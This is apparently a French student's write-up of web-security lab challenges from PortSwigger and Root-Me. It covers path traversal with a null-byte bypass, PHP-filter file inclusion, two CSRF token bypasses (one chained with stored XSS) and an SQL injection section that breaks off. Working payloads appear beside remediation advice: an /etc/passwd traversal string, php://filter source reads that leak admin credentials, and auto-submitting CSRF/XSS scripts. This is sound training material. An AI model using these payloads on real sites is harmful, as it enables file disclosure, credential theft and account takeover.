# Challenge 1 – File Path Traversal, Validation of File Extension with Null Byte Bypass

---

## 🔗 Nom / URL du challenge
**Nom :** Port Swigger Lab: File path traversal, validation of file extension with null byte bypass  
**URL :** https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass

---

## 🔍 Étapes de découverte de la vulnérabilité

1. J’ai activé **Intercept On** dans Burp Suite pour observer les requêtes envoyées lors de la navigation.
2. En consultant la fiche d’un produit, Burp Suite a intercepté une requête contenant un paramètre `filename` utilisé pour charger l’image du produit.
3. J’ai identifié ce paramètre comme potentiellement vulnérable à un path traversal.
4. J’ai modifié la valeur du paramètre dans Burp afin de tester un accès à un fichier sensible présent sur le serveur.
5. L’application validait uniquement la fin de la chaîne (doit se terminer par `.png`), mais ne gérait pas correctement le caractère **null byte**, permettant de contourner cette validation.
6. La réponse du serveur a confirmé l’accès au fichier ciblé, prouvant l’exploitation de la vulnérabilité.

---

## 📸 Payload utilisé + Screenshot

../../../etc/passwd%00.png

### **Screenshot de la requête modifiée dans Burp Suite :**


### **Screenshot de la réponse confirmant l’exploitation :**


---

## 🛡️ Recommandations pour sécuriser cette vulnérabilité

### ✔️ 1. Éviter d'utiliser l’input utilisateur dans les API de fichiers
La méthode la plus sûre consiste à **ne jamais passer des données utilisateur directement aux fonctions du système de fichiers**.

> "The most effective way to prevent path traversal vulnerabilities is to avoid passing user-supplied input to filesystem APIs altogether."

---

### ✔️ 2. Valider l’input utilisateur
Si l’utilisation d’un input utilisateur est inévitable :

#### a. Utiliser une liste blanche
Comparer l’input avec une **liste de valeurs autorisées**.

#### b. Sinon, valider strictement le contenu
S'assurer que la valeur ne contient **que des caractères autorisés** (alphanumériques par exemple).  
Éviter tout caractère dangereux : `..`, `/`, `\`, `%00`, etc.

---

### ✔️ 3. Canonicaliser le chemin final
Une fois l’input validé :

1. Concaténer l’input avec un répertoire de base contrôlé.
2. Utiliser une API système pour **canonicaliser** le chemin.
3. Vérifier que le chemin canonicalisé commence par le répertoire autorisé.

#### Exemple officiel (Java) :

```java
File file = new File(BASE_DIRECTORY, userInput);

if (file.getCanonicalPath().startsWith(BASE_DIRECTORY)) {
    // process file
}
```
---

## 📚 Référence utilisée

Portswigger : How to prevent a path traversal attack  
https://portswigger.net/web-security/file-path-traversal#how-to-prevent-a-path-traversal-attack
---

# Challenge 2 – PHP - Filters

---

## 🔗 Nom / URL du challenge
**Nom :** Root me: PHP - Filters  
**URL :** https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters

### 🔍 Étapes de découverte de la vulnérabilité

1. Dans la page de connexion, j’observe un paramètre `inc` dans l’URL qui inclut dynamiquement des fichiers (`?inc=login.php`).  
   
2. Je teste l’injection de `?inc=/etc/passwd`, mais cela ne fonctionne pas : la requête est filtrée.  
   
3. J’utilise alors les **PHP filters**, notamment le wrapper `php://filter`, qui permet de lire le code source en Base64.  
   
4. Maintenant que j’ai récupéré le code source encodé en Base64, je le décode pour pouvoir le lire.  
   
5. Dans le code, on aperçoit la ligne `include("config.php");`. Je reproduis donc la même étape pour récupérer le fichier `config.php`.  
     
   
6. Je récupère les identifiants de l’administrateur et je peux alors me connecter.  
   

## 📸 Payload utilisé + Screenshot

php://filter/convert.base64-encode/resource=login.php

php://filter/convert.base64-encode/resource=config.php


## 🛡️ Recommandations pour sécuriser cette vulnérabilité

- Ne jamais inclure un fichier directement à partir d’un paramètre utilisateur sans validation stricte.

- Mettre en place une **liste blanche** des fichiers autorisés :

```php
$allowed = ['home.php', 'login.php', 'about.php'];
$page = $_GET['inc'] ?? 'home.php';

if (in_array($page, $allowed)) {
    include($page);
}
```

- Désactiver les wrappers dans `php.ini` :
```
allow_url_include = Off
```
*(Cette seule directive empêche complètement l’usage du wrapper `php://filter`.)*

- Ne pas se fier à des filtres simples (blocage de `../`, `/`, etc.) :  
  → Ces filtres sont facilement contournables via les wrappers PHP.

- Si l’inclusion dynamique est obligatoire, utiliser `realpath()` pour vérifier le chemin réel et confirmer qu’il reste dans le répertoire autorisé :


## 📚 Référence utilisée
TCM Security – Local File Inclusion: A Practical Guide (2023)  
https://tcm-sec.com/local-file-inclusion-a-practical-guide/
---

# Challenge 3 – CSRF-contournement-de-jeton

---

## 🔗 Nom / URL du challenge
**Nom :** Root me: CSRF-contournement-de-jeton  
**URL :** https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton
---
## 🔍 Étapes de découverte de la vulnérabilité

1. J'arrive sur la page d'accueil, où deux boutons sont disponibles : **Login** et **Register**.  
   Je me crée donc un compte.  
   

2. Ensuite, je me connecte avec le compte que je viens de créer. J'aperçois une page **Profile** (on voit que mon compte n'est pas activé).  
   

3. Je remarque un champ caché nommé `token`, il s'agit d'un **jeton CSRF**.  
   

4. À chaque actualisation de la page, le token change. Je n'aperçois aucun code côté client lié à la génération du token CSRF, donc j'en déduis qu'il est généré côté serveur.

5. Le but est donc d’essayer **de récupérer le jeton CSRF de l’administrateur** afin de pouvoir **activer mon propre compte**.

6. Je passe par une faille XSS pour injecter du JavaScript dans l’onglet **Contact** pour que lorsque que l'admin (robot-admin) va consulter le message, le script va s’exécuter dans **son** navigateur et avec **ses** droits.


7. J'attends un peu que le robot passe et c'est bon mon compte est activé :


## 📸 Payload utilisé + Screenshot

```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="TestBotan" />
    <input type="hidden" name="status" value="on" /> 
    <input id="admin-token" type="hidden" name="token" value="" />
</form>

<script>
    var request = new XMLHttpRequest();
    request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
    request.send(null);
    var response = request.responseText;
    var groups = response.match("token\" value=\"(.*?)\"");
    var token = groups[1];
    document.getElementById("admin-token").value = token; 
    document.csrf.submit();
</script>
```


## 🛡️ Recommandations pour sécuriser cette vulnérabilité

### 🔒 Prévention CSRF

1. **Utiliser des tokens CSRF uniques, aléatoires et imprévisibles**
    - Générés côté serveur.
    - Régénérés régulièrement (par requête ou par formulaire).
    - Associés à la session.

2. **Valider les tokens côté serveur pour toutes les requêtes sensibles**
    - Toute requête sans token ou avec un token incorrect doit être rejetée.

3. **Inclure explicitement le token CSRF dans les formulaires**
    - Jamais dans les cookies (le navigateur les enverrait automatiquement).

4. **Utiliser des en-têtes personnalisés pour les requêtes AJAX**
    - Exemple : `X-Requested-With`, `X-CSRF-Token`.
    - Vérifiés côté serveur.

5. **Configurer les cookies en `SameSite=Strict` ou `Lax`**
    - Empêche les cookies d’être envoyés depuis des sites tiers.

6. **Ne jamais effectuer d’actions sensibles via GET**
    - Les requêtes GET doivent être idempotentes.

7. **Utiliser OWASP CSRFGuard (pour Java)**
    - Injection automatique de tokens.
    - Protection centralisée et vérification des requêtes.

---

### 🔐 Prévention XSS

Comme l’attaque repose *sur l’injection de JavaScript dans le formulaire de contact*, il est essentiel de corriger la faille XSS.

1. **Échapper systématiquement les données en sortie**
    - `HTML escaping` pour le contenu HTML.
    - `Attribute escaping` pour les attributs (`value=""`, etc.).
    - `JavaScript escaping` pour les scripts intégrés.

2. **Utiliser une validation stricte des entrées**
    - Filtrer les caractères dangereux.
    - Refuser/assainir les données qui ne correspondent pas au format attendu.

3. **Désactiver l’interprétation du HTML dans les champs utilisateurs**
    - Afficher le contenu comme texte (ex. via `textContent` – côté client, ou équivalent serveur).

4. **Mettre en place une politique de sécurité de contenu (CSP)**
    - Interdire l’exécution de scripts inline.
    - Autoriser uniquement les scripts provenant de sources approuvées.

5. **Ne jamais faire confiance au contenu envoyé via les formulaires**
    - Toujours traiter comme contenu non fiable (principle of zero trust).

6. **Éviter les attributs dangereux**
    - Pas d’injection dans `onclick`, `src`, `href`, etc.
    - Pas de `innerHTML` pour afficher du contenu dynamique.

---

## 📚 Références utilisées

- **OWASP — Cross-Site Request Forgery Prevention Cheat Sheet**  
  https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

- **OWASP CSRFGuard**  
  https://owasp.org/www-project-csrfguard/

- **OWASP XSS Prevention Cheat Sheet**  
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
---

# Challenge 4 – Lab: CSRF where token is not tied to user session  

---

## 🔗 Nom / URL du challenge
**Nom :** Port Swigger Lab: CSRF where token is not tied to user session  
**URL :** https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session
---

## 🔍 Étapes de découverte de la vulnérabilité

Je me connecte au **premier compte utilisateur** fourni dans l’énoncé du lab.  


Une fois connecté, j’accède à la fonctionnalité permettant de modifier l’adresse e-mail et j’entre une adresse e-mail.  
J’active ensuite **Intercept On** dans Burp Suite afin d’observer les requêtes générées lors de cette action.

Je vois alors la requête envoyée pour changer l’adresse e-mail, dans laquelle apparaît le jeton CSRF. Pour éviter de modifier mon adresse e-mail, je **drop** la requête.


J’ouvre une fenêtre en **navigation privée** et me connecte au **second compte** fourni par le challenge, puis je fais exactement la même manipulation :
- naviguer vers le formulaire de changement d’e-mail
- entrer une nouvelle adresse
- intercepter la requête
- récupérer le jeton CSRF
- **drop** la requête

  


De retour sur le premier compte, j’essaie maintenant de changer l’adresse e-mail en utilisant le jeton CSRF provenant du second compte afin de vérifier si le jeton est lié à la session de l’utilisateur.  
La requête est acceptée, donc j’en déduis que le jeton **n’est pas lié à la session utilisateur**.



Enfin, je retourne sur le second compte pour tenter une nouvelle modification d’adresse e-mail avec une adresse unique afin de générer un nouveau jeton CSRF.  
Je le récupère puis je **drop** la requête.


Je crée ensuite une page HTML malveillante (PoC) que la victime va charger et je l’héberge dans l’onglet « Exploit Server » du lab, en y mettant le jeton CSRF que je viens de récupérer.

Enfin, je l’envoie à la victime via le bouton **« Deliver exploit to victim »**.

Une fois l’exploit envoyé, la victime charge automatiquement la page malveillante. Le formulaire se soumet dans son navigateur en utilisant le jeton CSRF que j’ai récupéré, ce qui modifie son adresse e-mail sans aucune interaction de sa part.




## 📸 Payload utilisé + Screenshot
```html
<html>
<body>
    <form id="csrfForm" action="https://0a61007f04e8603480628ae1004a00ed.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="byilmaz1@myges.fr">
        <input type="hidden" name="csrf" value="BYYYnLe5xg8bqnpSvmOaP1pl0o2hFmNH">
    </form>

    <script>
        // Auto‑submit du formulaire dès l’ouverture de la page
        document.getElementById("csrfForm").submit();
    </script>
</body>
</html>
```


# 🛡️ Recommandations pour sécuriser cette vulnérabilité

---

## ✔️ 1. Utiliser des tokens CSRF robustes

Le moyen le plus fiable de prévenir les attaques CSRF est d’inclure un **token CSRF** dans toutes les requêtes sensibles.  
Selon PortSwigger, ces tokens doivent :

- être **hautement imprévisibles** et contenir beaucoup d’entropie
- être **liés à la session utilisateur**
- être **strictement validés** côté serveur avant d’exécuter toute action

---

## ✔️ 2. Générer correctement les tokens CSRF

Pour garantir leur sécurité :

- générer les tokens via un **CSPRNG** (générateur aléatoire cryptographiquement sûr),
- utiliser comme graine :  
  → un timestamp + un secret statique,
- pour davantage d’assurance : concaténer l’output du CSPRNG avec une **valeur spécifique à l’utilisateur**, puis prendre un **hash cryptographique**.

Cela empêche un attaquant d’analyser des tokens existants pour prédire les prochains.

---

## ✔️ 3. Transmettre les tokens de manière sécurisée

PortSwigger recommande de :

- transmettre le token dans un **champ caché** d’un formulaire **HTML** envoyé en **POST** :

```html <input type=*hidden* name=*csrf-token* value=*CIwNZNlR4XbisJF39I8yWnWX9wX4WFoz*> ```
- placer ce champ aussi tôt que possible dans le **HTML** :
- avant tout contenu contrôlable par l’utilisateur
- avant toute zone pouvant être manipulée par un attaquant

### ❌ Pratiques déconseillées

- Ne jamais placer le token dans un cookie.
- Éviter de placer le token dans l’**URL**, car celle‑ci :
    - peut être loguée
    - peut apparaître dans l’en‑tête **Referer**
    - peut être visible dans le navigateur


## ✔️ 4. Valider correctement les tokens CSRF

La validation doit être **systématique**, quel que soit :

- la méthode **HTTP** (**POST**, **GET**, **PUT**, etc.)
- le type de contenu envoyé

Lors d’une requête sensible, le serveur doit :

- comparer le token envoyé par le client avec celui **stocké dans la session**
- rejeter toute requête :
    - sans token
    - avec un token invalide
    - ou avec un token ne correspondant pas à la session utilisateur

➡️ **C’est précisément ce point que le lab met en évidence comme vulnérable.**

---

## ✔️ 5. Utiliser des cookies SameSite stricts

PortSwigger recommande de définir explicitement l’attribut **SameSite** pour chaque cookie émis.

Idéalement :

```text
SameSite=Strict
```
# Protection SameSite

- `SameSite=Strict` : protection maximale contre les requêtes intersites.
- Utiliser `Lax` uniquement si nécessaire.
- Éviter `SameSite=None` sauf cas maîtrisés.

Même si ce mécanisme ne remplace pas les tokens **CSRF**, il constitue une couche de protection supplémentaire.

## ✔️ 6. Se méfier des attaques cross-origin same-site

Les protections `SameSite` n’empêchent pas les attaques provenant d’un autre sous-domaine du même site.

PortSwigger recommande donc :

- D’isoler les fichiers utilisateurs ou le contenu non fiable sur un domaine distinct.
- D’auditer toutes les surfaces d’attaque des sous-domaines partageant la même racine.

## 📚 Références utilisées

- **PortSwigger – Preventing **CSRF** vulnerabilities**  
  [https://portswigger.net/web-security/csrf/preventing](https://portswigger.net/web-security/csrf/preventing)

  

# Challenge 7 --- SQL Injection Error-Based

##  Objectif du challenge

L'objectif du challenge est d'exploiter une injection SQL pour récupérer
des informations sensibles contenues dans la base de données.
L'application présente une fonctionnalité de tri (`ORDER BY`)
manipulable par l'utilisateur, ce qui en fait un point d'injection
potentiel.

------------------------------------------------------------------------

##  Vulnérabilité : SQL Injection Error-Based (via ORDER BY)

